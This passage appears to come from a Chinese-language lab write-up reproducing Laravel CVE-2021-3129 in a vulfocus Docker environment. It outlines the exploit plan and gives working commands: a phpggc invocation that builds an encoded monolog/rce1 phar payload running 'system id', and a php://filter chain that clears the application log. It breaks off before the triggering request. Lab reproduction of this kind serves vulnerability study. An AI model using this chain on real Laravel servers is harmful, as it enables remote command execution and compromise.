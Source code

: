 （8）可以用docker run命令直接启动漏洞环境了

`docker run -d -p 8080:8080 vulfocus/laravel-cve_2021_3129`

（9）访问http://ip:8080

### 2. **复现思路**

（1）清空log

（2）写入phar

（3）读取phar

### 3. **漏洞调试复现**

（1）在laravel的依赖里面找一条能够rce的链，如monolog/rce1。生成对应的phar文件，并将phar文件base64编码。

```
php -d 'phar.readonly=0' ./phpggc monolog/rce1 system id --phar phar -o php://output | base64 -w0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:].zfill(2) + '=00' for i in sys.stdin.read()]).upper())"
```

<img src="./图片8.png" style="zoom:150%;" />

（2）清空log文件

```
php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log
```

